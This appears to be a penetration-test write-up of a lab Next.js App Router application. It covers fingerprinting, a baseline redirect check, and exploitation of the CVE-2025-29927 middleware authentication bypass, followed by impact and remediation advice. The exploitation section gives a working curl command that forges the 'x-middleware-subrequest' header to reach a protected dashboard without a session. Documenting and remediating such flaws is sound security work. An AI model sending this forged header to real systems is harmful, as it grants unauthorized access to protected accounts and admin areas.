



# Module 02: Next.js Security Assessment — Middleware Authentication Bypass
 
## Overview
 
This assessment targeted a Next.js application built on the App Router and deployed in production mode (`next build && next start`). The application enforced access control to a protected dashboard route entirely inside middleware — a function that runs ahead of every request and acts as the central authentication gatekeeper in App Router applications. Testing of the framework's internal request-forwarding mechanism revealed that Next.js trusted a client-supplied header intended for internal use only. By forging that header, it was possible to bypass the authentication middleware completely and reach the protected route without a valid session. This corresponds to **CVE-2025-29927**, a critical (CVSS 9.1) authentication bypass.
 
---
 
## Target Identification
 
### HTTP Fingerprinting
 
A header request against the application root returned an `X-Powered-By: Next.js` header, alongside a set of App-Router-specific `Vary` directives and cache headers.
 
```bash
curl -I http://target.internal:3001/
```
 
```
HTTP/1.1 200 OK
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
x-nextjs-cache: HIT
X-Powered-By: Next.js
Content-Type: text/html; charset=utf-8
```
 
This combination confirms a Next.js deployment specifically using the App Router rather than the legacy Pages Router. Viewing the page source for a `window.__next_f` hydration array — the data structure Next.js injects to hydrate React Server Components — confirmed this further; that array is unique to App Router pages and does not appear in the Pages Router or any other framework.
 
### Route Behavior
 
Requesting the protected route without a session cookie produced a redirect rather than the page itself:
 
```bash
curl -v http://target.internal:3001/dashboard
```
 
```
GET /dashboard HTTP/1.1
...
< HTTP/1.1 307 Temporary Redirect
< Location: /login
```
 
This confirmed an authentication check was actively running ahead of the route, consistent with middleware being used as the access-control layer.
 
---
 
## Vulnerability Summary
 
Next.js middleware can, in some configurations, forward a request internally. To avoid recursive re-execution when this happens, the framework attaches an internal header — `x-middleware-subrequest` — to mark a request as an internal subrequest so middleware does not run against it a second time.
 
The flaw was that Next.js never verified the origin of this header. It is meant to be set only by the framework itself on internal forwards, but the server treated any request carrying the header as already having passed through middleware, regardless of whether the client supplied it directly. The expected value encodes the middleware module's path repeated five times — `middleware:middleware:middleware:middleware:middleware` for a root-level `middleware.ts` file, or `src/middleware:...` repeated the same way if middleware lives under a `/src` directory.
 
Because the dashboard route's authentication logic lived entirely inside middleware, supplying this header from an external client caused the framework to skip the authentication check and route the request directly to the protected page handler.
 
---
 
## Exploitation Workflow
 
### 1. Baseline Authorization Check
 
A request to the protected dashboard route without any session context was issued to confirm the gate was active:
 
```bash
curl -v http://target.internal:3001/dashboard
```
 
The server redirected to `/login`, confirming the route was protected prior to exploitation.
 
### 2. Middleware Bypass via Forged Header
 
The internal subrequest header was added to an otherwise identical, unauthenticated request:
 
```bash
curl -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://target.internal:3001/dashboard
```
 
### 3. Access to the Protected Route
 
The response returned the dashboard page content directly, with no redirect and no session cookie present anywhere in the request. The authentication middleware never executed.
 
---
 
## Impact
 
This issue resulted in a complete authentication bypass for any route protected solely by Next.js middleware. An unauthenticated client could reach restricted application areas — dashboards, account data, administrative panels — by adding a single static header value to an otherwise normal HTTP request, with no credentials, brute forcing, or session token required. Because middleware is the standard mechanism for centralizing access control in App Router applications, this vulnerability affected any deployment that followed that common pattern and had not patched to a fixed Next.js release.
 
---
 
## Evidence
 
### 1. Next.js Header Fingerprinting

 
`X-Powered-By: Next.js` and the App-Router-specific `Vary` header set confirm the framework and routing mode before any exploit payload is sent.
 
### 2. Protected Route Redirect (Baseline)

 
An unauthenticated request to `/dashboard` returns `307 Temporary Redirect` to `/login`, confirming the route is gated prior to exploitation.
 
### 3. Middleware Bypass via Forged Header

 
The identical request, with only the forged `x-middleware-subrequest` header added, returns `200 OK` with the protected dashboard's HTML — no session cookie, no credentials, no redirect.
 
---
 
## Remediation
 
* Upgrade to a patched Next.js release that validates the origin of internal headers such as `x-middleware-subrequest` and strips any client-supplied value before processing.
* Never rely on a single trust boundary (middleware alone) for authentication; re-validate access control again at the page or API route level as defense in depth.
* Strip or reject client-supplied headers that match framework-internal naming conventions at the reverse proxy or edge layer.
* When assessing applications on the App Router, also review the RSC Flight protocol's request-handling path, since a separate, more severe unauthenticated deserialization vulnerability targets the same general request pipeline in certain Next.js/React 19 version combinations.
